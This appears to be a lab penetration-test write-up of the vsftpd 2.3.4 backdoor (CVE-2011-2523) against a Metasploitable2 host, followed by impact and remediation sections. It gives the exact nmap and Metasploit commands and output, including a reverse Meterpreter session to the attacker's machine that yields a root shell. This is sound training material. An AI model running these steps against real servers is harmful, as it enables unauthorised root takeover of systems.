



# vsftpd 2.3.4 — Backdoor Command Execution

**CVE:** CVE-2011-2523
**Target:** Metasploitable2 (10.0.2.3)
**Date:** August 2026
**Severity:** Critical

## Summary

vsftpd 2.3.4 shipped with a maliciously inserted backdoor after its source archive was compromised. Any server running this exact version is vulnerable to unauthenticated remote command execution, leading directly to root-level access.

## 1. Reconnaissance

Full TCP port/service scan against the target:

```
$ nmap -sV -p- 10.0.2.3
```


*Nmap scan output showing open ports and service versions on 10.0.2.3, including vsftpd 2.3.4 on port 21.*

Scan revealed a large attack surface (FTP, SSH, Telnet, SMTP, HTTP, Samba, RPC services). One entry stood out:

```
21/tcp   open  ftp     vsftpd 2.3.4
```

vsftpd 2.3.4 is a well-documented case where the official source archive was compromised and a backdoor inserted before the tampering was discovered.

## 2. Vulnerability Identification

Searched Metasploit's module database to confirm an existing exploit for this exact version:

```
msf > search vsftpd
```


*Metasploit search results confirming exploit/unix/ftp/vsftpd_234_backdoor (rank: excellent).*

Result: `exploit/unix/ftp/vsftpd_234_backdoor` — reliability rank **excellent**, confirming a stable, well-tested exploit path.

## 3. Exploitation

Configured and ran the module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.3
set LHOST 10.0.2.15
run
```

Output confirmed the vulnerable banner, spawned the backdoor, and opened a Meterpreter session:

```
[*] 10.0.2.3:21 - Running automatic check
[+] 10.0.2.3:21 - The target appears to be vulnerable.
[+] 10.0.2.3:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.3:54714)
```

## 4. Post-Exploitation — Verifying Access

Dropped into a native shell to confirm privilege level:

```
meterpreter > shell
whoami
id
```

```
root
uid=0(root) gid=0(root)
```


*Shell access confirmed with uid=0(root) gid=0(root), indicating full root-level compromise.*

Confirms full root-level access obtained directly through the FTP backdoor — no additional privilege escalation required.

## 5. Impact

In a real-world scenario, this vulnerability would allow an unauthenticated remote attacker to:
- Gain complete, unrestricted root access to the affected server
- Read, modify, or delete any file, including sensitive configuration and credential files
- Use the compromised host as a pivot point to attack other systems on the internal network
- Install persistent backdoors or malware with full administrative privileges

## 6. Remediation

- Immediately upgrade vsftpd to a current, unaffected version from an official, verified source
- Verify package integrity via checksums/signatures before deployment, especially for internet-facing services
- Restrict FTP service exposure to trusted networks only; disable entirely if not required
- Implement network-level monitoring/IDS to flag anomalous outbound connections following service exploitation
- Apply the principle of least privilege — no service should run with unnecessary root-level permissions

## References

- [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
